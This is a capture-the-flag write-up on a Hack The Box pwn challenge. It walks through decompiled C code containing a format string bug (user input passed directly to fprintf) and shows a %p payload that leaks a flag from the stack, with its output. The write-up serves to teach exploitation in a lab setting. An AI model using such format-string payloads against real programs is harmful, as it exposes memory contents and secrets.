 ```yaml
---
title:  "[CTF] Unauthorised Access"
categories: [CTF, HTB, Pwn]
---
```


<blockquote>
  <p>Our security developer stated that switching to a 64-bit architecture is unnecessary since their program ensures safety, and only the admin with the authorization cookie can access the secret file. However, we remain uncertain and would appreciate it if you could investigate this matter further.</p></blockquote>

## Understanding the challenge

When running the binary, we have a few tempting options, like reading the secret message or logging in as admin, which of course don’t work:

![Menu](/assets/images/Unauthorised/menu.png)


Behind the scenes, the main function simply calls  a few helper functions to setup the challenge and display the menu:

```c
undefined4 main(void)

{
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setup();
  banner();
  menu();
  uVar2 = 0;
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar2 = __stack_chk_fail_local();
  }
  return uVar2;
}
```


The interesting bits happen in the `menu()` function (annotated code with comments and variable names changed, obtained from Ghidra decompile tool):

```c
void menu(void)
{
  int fdFlag;
  int in_GS_OFFSET;
  byte bVar1;
  undefined4 contentFlag [20];
  undefined4 msgToAdmin [64];
  undefined4 local_10;
  undefined4 *ptrStr;
  
  bVar1 = 0;
  local_10 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  while( true ) {
    // Zero out
    ptrStr = msgToAdmin;
    for (fdFlag = 0x40; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
    ptrStr = contentFlag;
    for (fdFlag = 0x14; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
   fdFlag = open("./flag.txt",0);
    if (fdFlag < 0) break;
 read(fdFlag,contentFlag,0x50);
    fwrite("\n+--------------------------+\n|  1. Read secret message  |\n|  2. Login as admin        |\n|  3. List directory       |\n|  4. Exit                 |\n+--------------------------+\n\n $ "
           ,1,0xb2,stdout);
    fdFlag = read_num();
    if (fdFlag == 2) {
      fprintf(stdout,"%s\n[-] Auth token does not match with admin\'s. Login failed!\n%s",
              &DAT_00010fe8,&DAT_00010e72);
    }
    else if (fdFlag == 3) {
      puts("");
      system("ls");
    }
    else {
      if (fdFlag != 1) {
        fwrite("\nGoodbye!\n",1,10,stdout);
        exit(0x16);
      }
      fprintf(stdout,"%s\n[-] You are not admin!\n%s",&DAT_00010fe8,&DAT_00010e72);
      fwrite("\nYou can leave a message for admin to check it later: ",1,0x36,stdout);
 read(0,msgToAdmin,0x99);
 fwrite("\nYour message is: ",1,0x12,stdout);
 fprintf(stdout,(char *)msgToAdmin);
    }
  }
  perror("\nError opening flag.txt, please contact an Administrator.\n");

  exit(1);
}
```

## Vulnerability identification

Since we’re reading a message from the user and then printing it back as a string, we have a classic case of a format string vulnerability:

```c
read(0, msgToAdmin, 0x99);
fwrite("\nYour message is: ", 1, 0x12, stdout);
fprintf(stdout, (char *)msgToAdmin);
```

## Exploitation

Since we know that the flag is read on a variable stored on the stack, we can use the format string attack to print all the bytes of the message/flag, as hex pointers:


```bash
You can leave a message for admin to check it later: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p   
                                                          
Your message is: 0x12 0xf7e1dda0 0x1 0x1 0x3 0x7b425448 0x336b3466 0x346c665f 0x5f345f67 0x74353374 0x7d676e31 0xa (nil) (nil) (nil) (nil) (nil) (nil)  

```

## References

* [Lecture Notes (Syracuse University) - Format String Vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
* [OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack)
